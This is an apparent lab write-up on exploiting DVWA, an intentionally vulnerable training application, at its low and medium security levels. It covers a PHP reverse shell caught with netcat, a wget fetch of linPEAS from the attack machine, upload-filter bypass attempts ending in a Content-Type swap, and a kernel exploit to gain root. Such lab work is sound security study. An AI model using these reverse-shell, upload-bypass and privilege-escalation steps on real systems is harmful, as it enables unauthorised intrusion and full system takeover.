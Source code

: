 # Post Exploitation and Privilege Escalation

## Low security

### Reverse Shell in DVWA

* Find a reverse shell to use

Since the DVWA is written in PHP, we will have to use a PHP based reverse shell. The first result after a Google search [is the pentestingmonkey revrse shell](https://github.com/pentestmonkey/php-reverse-shell).

We will need to clone the repo:
![Screenshot 2022-03-10 164630](https://user-images.githubusercontent.com/19424915/157690757-aef2721f-d59c-472a-a9e0-e4defd4cd045.png)

* Adjust the Reverse Shell to match our demands

We will first need to find out the attack machine (Kali) IP address:
![Screenshot 2022-03-10 165807](https://user-images.githubusercontent.com/19424915/157691425-980327f4-cce9-4bd3-b674-0f64511ece2f.png)

Then, we can edit the revese shell code with our IP address and the port we will be listening to:
![Screenshot 2022-03-10 171526](https://user-images.githubusercontent.com/19424915/157692165-ca94d8d0-1a7c-4b69-8af7-3c3e25ed6d3b.png)

* Acheive Reverse Shell

We need to start a netcat instace on our attack machine which is going to listent to the port we have already specified in the Reverse Shell code - in our case "12345".
![Screenshot 2022-03-10 172410](https://user-images.githubusercontent.com/19424915/157695024-a57e8bdf-d0b3-484f-8da1-2f4cf17ffc84.png)

Once we have a listener up and ready we can upload and start the Reverse Shell.
![Screenshot 2022-03-10 172219](https://user-images.githubusercontent.com/19424915/157695200-99dd92b1-26fc-4fe6-8bb5-3cbc7a66a602.png)
![Screenshot 2022-03-10 172443](https://user-images.githubusercontent.com/19424915/157695224-d5e75372-c7a0-4c0a-8eaa-8927eb50b030.png)

As a result, we acheive remote access to the atacked machine (DVWA) terminal.
![Screenshot 2022-03-10 172505](https://user-images.githubusercontent.com/19424915/157695658-6ac33e32-d544-488f-a1d2-327bb03c730c.png)

### Find out DVWA vulnerabilities

* Get linPEAS

We will need a tool which will be responsible for giving us a vulnarability report for DVWA. We can user linPEAS to tackle this chellenge.
![Screenshot 2022-03-10 174233](https://user-images.githubusercontent.com/19424915/157699350-26f92e17-573d-415b-8e8c-ffe975460e9c.png)
![Screenshot 2022-03-10 174458](https://user-images.githubusercontent.com/19424915/157699369-7c765eb6-ff8f-43f8-a7ca-4941616a01cf.png)

* Upload linPEAS on DVWA

Now, we will have to somehow upload the linpeas script on our attacked machine. We can acheive this by serving the directory with the desired script file and than we can download it from the DVWA reverse shell.

For serving the linPEAS directory we can use a simple python http server.
![Screenshot 2022-03-10 220737](https://user-images.githubusercontent.com/19424915/157745874-676200e1-8acd-4b30-ace2-6ac6cd45c9d0.png)

Using the reverse shell we can download the `linpeas.sh` file from our http server. In our case, since the server listens on port `3000`, we will have to run `wget 10.0.2.15:3000/linpeas.sh`. If we try to simply run the command, we will receive a `permission denied` error, which obviously means that our user (`nobody`) cannot write in the current directory. So, we will need to find a directory where we can have write privileges. The most common linux directory with such description is the `/tmp` directory. It is used for files that are temporarily required by the system (Linux based). Which mean that most probably this directory will allow us to write in it. We can verify that by running `ls -la` which will list us the directories and their permissions.

![Screenshot 2022-03-11 002352](https://user-images.githubusercontent.com/19424915/157764788-cee07e81-3e0d-49bb-8d60-3e0126a60a58.png)

Since we have found a place to write, we can step further and download the script in the `/tmp` dir.

![Screenshot 2022-03-10 183107](https://user-images.githubusercontent.com/19424915/157765177-69091530-cb95-40c3-bc9f-70bd5e29a81a.png)

We have the script we need, we can go and just run it with `./linpeas.sh`. However, we again hit a `permission denied` error. Running `ls -la` we can observe that the only privileges we have are `w` (write) and `r` (read), but we have no `x` (execute). So, we must add it - `chmod +x linpeas.sh`.

![Screenshot 2022-03-10 215055](https://user-images.githubusercontent.com/19424915/157766026-9cf5cda3-2fdc-4822-9dd3-84b04d5671aa.png)
 
 Finally, we can run the script and analyze the result. The report is еxhaustive and contains almost everything we need to know about the attacked machine.
 
 ![Screenshot 2022-03-10 215400](https://user-images.githubusercontent.com/19424915/157766375-a3d6b611-7e51-4b95-b330-b191ca8ecac8.png)

### Most probable exploits

In order to find out the most probable exploits, we can use a great tool called [linux-exploit-suggester](https://github.com/mzet-/linux-exploit-suggester). 

We can use the same approach as we used for the linPEAS script. We will need to:

1. Clone the repo from github;

![Screenshot 2022-03-11 160025](https://user-images.githubusercontent.com/19424915/157884600-c7d9bff5-c0d0-4a5b-900b-582760b2bf5b.png)
![Screenshot 2022-03-11 160141](https://user-images.githubusercontent.com/19424915/157884636-b0050c83-8129-48b7-913f-295538a3514e.png)

2. Serve the directory with the file we need;

![Screenshot 2022-03-11 160510](https://user-images.githubusercontent.com/19424915/157884821-14da417f-e26a-402b-9372-3eb7cbd82d70.png)

3. Download the script in the `/tmp` dir of the DVWA and make sure that we have the correct privileges to execute the file;

![Screenshot 2022-03-11 160728](https://user-images.githubusercontent.com/19424915/157885169-4ccb5522-542c-4192-9f6e-1bf5814bc457.png)

Finally, we can run the `linux-exploit-suggester.sh` script and analyze the results.

![Screenshot 2022-03-11 160912](https://user-images.githubusercontent.com/19424915/157885590-ef4f5d04-bd5b-4708-a72e-ce0e26997a9a.png)

As we can observe there are three `highly probable` exploits: `dirtycow 2`, `rds` and `can_bcm`.

### Escalate Privilege

Now, we can try to exploit and escalate our privilige on the attcked machine. We will try it by using `rds` exploit.

There are number of github repos containing different kernel exploits. We will be using [kernel-exploits](https://github.com/lucyoa/kernel-exploits). There is a `rds` executable file which could be direcly downloaded.

![Screenshot 2022-03-11 234036](https://user-images.githubusercontent.com/19424915/157975721-cfcb7ec1-7e2e-4d96-981d-052e610fcbd4.png)

We will have to simply transfer the file on the attcked machine and run it.

![Screenshot 2022-03-11 235647](https://user-images.githubusercontent.com/19424915/157975959-d3ef0b97-7950-49be-b4aa-66912e618e6c.png)

![Screenshot 2022-03-11 164128](https://user-images.githubusercontent.com/19424915/157975980-e8e1c30e-50b1-4318-a804-88ba60086da1.png)

![Screenshot 2022-03-11 164252](https://user-images.githubusercontent.com/19424915/157975994-72563ef5-c813-4dc3-b104-3ab797510939.png)

Great news! We have gained `root` user access to the attacked machine.

## Medium security

### Reverse Shell in DVWA

We will use the same approach as we used for the low security case. We will need to somehow upload a reverse shell script in order to gain a remote access to the attacked machine. However, since the security level is higher, we will need to find more innovative way to do that.

I have tried a couple of approaches to bypass the validation. First, tried to upload a normal `.jpg` file to verify the correct file type.

![Screenshot 2022-03-12 004004](https://user-images.githubusercontent.com/19424915/158017947-958faff9-00cc-481b-9754-2dd87bbc9bca.png)

Then I tried to: 
1. Upload a file with a couple of extensions - `php-reverse-shell.img.txt.php`; 
2. Upload a file with some capital letters in the extension - `php-reverse-shell.PHp`
3. Upload a file with `;` and `\` separators - `image.jpg;php-reverse-shell.php`, `image.jpg\php-reverse-shell.php`.

None of the above approaches was successful.

Finally, I attempted to override the `Content-Type` of the `POST` http request which is resposible for uploading the file. To acheive that I had to use `Burp`.

First, I intersepted the `POST` request which uplaods the `php-reverse-shell.php` file.

![Screenshot 2022-03-12 023514](https://user-images.githubusercontent.com/19424915/158019691-e0ac683c-c657-408b-845f-fdbaef2ba8c5.png)

As we can observe, the `Content-Type` of the request body is `application/x-php`. I had to override it with `image/jpeg`. To acheive that, sent the intersepted request to the `repeater` and edited the `Content-Type` field.

![Screenshot 2022-03-12 023607](https://user-images.githubusercontent.com/19424915/158019809-d6d25cc9-7c89-4d01-acde-7aa2e413a9c9.png)

Making a request with the new `Content-Type` leads to a successful upload of the file to the server. Which means that the server validates only the `Content-Type` of the http request.

![Screenshot 2022-03-12 023637](https://user-images.githubusercontent.com/19424915/158019928-82c02d9b-6d4f-4caa-98d0-9ae6ff541307.png)

Now, we can navigate to the file and gain a remote access to the DVWA. Of course, we need to have a `netcat` listener running. 

![Screenshot 2022-03-12 023728](https://user-images.githubusercontent.com/19424915/158020050-baff31f0-db8d-438a-b62d-5a6f4e3dce69.png)

### Escalate Privilege

**Note: all the steps bellow are identical with those for the low security case, so will not be explained in details.**

Now, we can try to gain `root` user privileges. We will do the same steps as we did for the `low security` case.

First, we will upload `linux-exploit-suggester.sh` by serving it from our machine and downloading it from the attacked machine.

![Screenshot 2022-03-12 165735](https://user-images.githubusercontent.com/19424915/158027778-871b618f-8543-422f-85e0-c0a81307e671.png)

![Screenshot 2022-03-12 165759](https://user-images.githubusercontent.com/19424915/158027790-f69859e1-6d9d-4926-a2c0-3a49679848e5.png)

Then, we can execute the script.

![Screenshot 2022-03-12 165937](https://user-images.githubusercontent.com/19424915/158027822-3a7a20d5-13f4-4dcd-b85e-ad6a750fefde.png)

![Screenshot 2022-03-12 170027](https://user-images.githubusercontent.com/19424915/158027832-8a0ef4b8-08de-489d-94bc-8255c95377fe.png)

As we did for the low securty, we will use `rds` exploit.

We will transfer it to the attacked machine.

![Screenshot 2022-03-12 170124](https://user-images.githubusercontent.com/19424915/158028618-96556adb-539f-47ae-a609-c06ace48573c.png)
![Screenshot 2022-03-12 170202](https://user-images.githubusercontent.com/19424915/158028629-7a18ccb6-3101-436b-9aad-2ef70a33c0a8.png)

And execute it.

![Screenshot 2022-03-12 170252](https://user-images.githubusercontent.com/19424915/158028648-f16627bd-581c-4ff2-921d-8958183de62c.png)

![Screenshot 2022-03-12 170323](https://user-images.githubusercontent.com/19424915/158028652-a1820593-7de0-4555-8160-9bca0c7ecbce.png)
